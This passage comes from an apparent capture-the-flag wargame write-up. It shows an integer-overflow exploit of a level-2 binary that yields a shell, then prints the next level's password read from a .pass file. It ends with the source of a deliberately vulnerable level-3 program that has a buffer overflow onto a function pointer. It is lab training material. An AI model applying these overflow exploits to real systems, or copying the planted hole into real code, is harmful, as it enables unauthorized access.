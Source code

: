 The `abs()` function works only with intenger numbers, which means if we manage to make abs() fail overflowing its value the we will be executing the `catcher()` function.

Lowest intenger value:

```
❯ echo "-2^31" | bc
-2147483648
```

```bash
level2@io:/levels$ ./level02 "-2147483648" "-1"
source code is available in level02.c

WIN!
sh-4.3$
sh-4.3$ whoami
level3
sh-4.3$ cat /home/level3/.pass
OlhCmdZKbuzqngfz
```

## level 3

```bash
level3@io:~$ /levels/level03
level3@io:~$ cat /levels/level03.c
//bla, based on work by beach

#include <stdio.h>
#include <string.h>

void good()
{
        puts("Win.");
        execl("/bin/sh", "sh", NULL);
}
void bad()
{
        printf("I'm so sorry, you're at %p and you want to be at %p\n", bad, good);
}

int main(int argc, char **argv, char **envp)
{
        void (*functionpointer)(void) = bad;
        char buffer[50];

        if(argc != 2 || strlen(argv[1]) < 4)
                return 0;

        memcpy(buffer, argv[1], strlen(argv[1]));
        memset(buffer, 0, strlen(argv[1]) - 4);

        printf("This is exciting we're going to %p\n", functionpointer);
        functionpointer();

        return 0;
}
```
